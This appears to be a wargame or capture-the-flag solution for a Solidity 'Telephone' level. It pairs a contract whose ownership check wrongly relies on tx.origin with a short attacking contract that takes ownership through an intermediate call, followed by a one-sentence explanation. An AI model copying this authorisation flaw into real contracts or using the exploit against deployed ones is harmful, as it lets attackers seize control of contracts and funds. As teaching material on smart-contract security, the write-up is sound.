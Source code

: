 // SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Telephone {

  address public owner;

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract CallTelephone {
  constructor() public {}

  function changeOwner(address _contractAddress) public {
    Telephone telephone = Telephone(_contractAddress);
    telephone.changeOwner(msg.sender);
  }
}

tx.origin is the address of the account calling the changeOwner and msg.sender is the address of the CallTelephone contract so ownership is changed to the account initiating the changeOwner call.